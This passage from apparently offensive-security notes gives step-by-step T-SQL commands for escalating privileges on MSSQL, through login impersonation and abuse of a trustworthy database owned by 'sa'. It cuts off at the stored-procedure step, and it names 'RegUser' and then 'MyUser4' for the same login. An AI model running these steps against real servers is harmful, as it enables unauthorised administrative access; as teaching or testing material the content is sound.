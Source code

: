     ```c
    1> USE master
    2> EXECUTE AS LOGIN = 'sa'
    3> SELECT SYSTEM_USER
    4> SELECT IS_SRVROLEMEMBER('sysadmin')
    5> GO
    ```

    **Note:** Once you are sysadmin you can impersonate any other user.
4.  **Impersonate RegUser:**

    ```c
    1> EXECUTE AS LOGIN = 'RegUser'
    2> GO
    ```
5.  **Verify you are now running as the MyUser4 login:**

    ```c
    1> SELECT SYSTEM_USER
    2> SELECT IS_SRVROLEMEMBER('sysadmin')
    ```
6.  **Change back to sa:**

    ```c
    1> REVERT
    2> GO
    ```

#### Abusing MSSQL Database Trust

* **Tool:** \[\[SQLCMD]]
* From `db_owner` to `sysadmin`. If a regular user is given the role `db_owner` over the database owned by an admin user (such as `sa`) and that database is configured as trustworthy. That user can abuse these privileges to escalate privileges because stored procedures created in there that can execute as the owner (admin).

1.  **Get owners of databases:**

    ```c
    SELECT suser_sname(owner_sid) FROM sys.databases
    ```
2.  **Find trustworthy databases:**

    ```c
    SELECT a.name,b.is_trustworthy_on
    FROM master..sysdatabases as a
    INNER JOIN sys.databases as b
    ON a.name=b.name;
    ```
3.  **Get roles over the selected database:** Look for your username as `db_owner`. If you found you are `db_owner` of a trustworthy database, you can escalate privileges.

    ```c
    USE <trustworthy_db>
    SELECT rp.name as database_role, mp.name as database_user
    from sys.database_role_members drm
    join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
    join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)
    ```
4.  **Create a stored procedure to add your user to sysadmin role:**
